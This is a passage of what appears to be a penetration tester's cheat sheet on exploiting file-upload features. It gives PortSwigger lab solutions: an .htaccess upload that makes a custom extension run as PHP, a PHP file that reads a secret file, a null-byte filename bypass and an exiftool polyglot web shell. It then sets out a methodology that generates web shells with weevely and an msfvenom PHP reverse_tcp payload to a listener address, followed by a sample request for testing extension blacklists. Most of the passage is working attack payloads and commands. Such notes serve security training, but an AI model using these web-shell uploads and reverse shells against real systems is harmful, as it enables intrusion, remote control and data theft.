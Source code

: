     ```php
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    Content-Disposition: form-data; name="avatar"; filename=".htaccess"
    Content-Type: text/plain
    
    	AddType application/x-httpd-php .l33t
    ------------------------------------------
    then 
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    Content-Disposition: form-data; name="avatar"; filename="exploit.l33t"
    Content-Type: application/octet-stream
    
    <?php echo file_get_contents('/home/carlos/secret'); ?>
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    ```
    
- [ ] **[Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension) →** 1. `filename="exploit.php%00.jpg"`
    
- [ ] **[Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)**
    
    ```php
    exiftool.exe -Comment="<?php echo 'START ' . 'Hacked By h0tak88r :)' . ' END'; ?>" download.png -o polyglot.php
    ```
    

# Testing For File-Upload and Exploiting.

![https://blog.yeswehack.com/wp-content/uploads/mindmap.png.webp](https://blog.yeswehack.com/wp-content/uploads/mindmap.png.webp)

## Base Step

```
1. Browse the site and find each upload functionality.
2. Start with basic test by simply uploading a web shell using Weevely
	`weevely generate <password> <path>`
																	OR
	 Use Msfvenom `msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.8 lport=4444 -f raw`
3. Try the extension bypasses if that fails
4. Try changing content-type to bypass
5. Try Magic number bypass
6. Try Polygot or PNG IDAT chunks bypass
7. Finally if successful then upload small POC or exploit further.

```

## Test Case - 1: Blacklisting Bypass.

```
1. Find the upload request and send it to the repeater
2. Now start testing which extension for the file is blacklisted, change the `filename=` Parameter

POST /images/upload/ HTTP/1.1
Host: target.com
[...]

---------------------------829348923824
Content-Disposition: form-data; name="uploaded"; filename="dapos.php"
Content-Type: application/x-php

3. Try all of this extension

```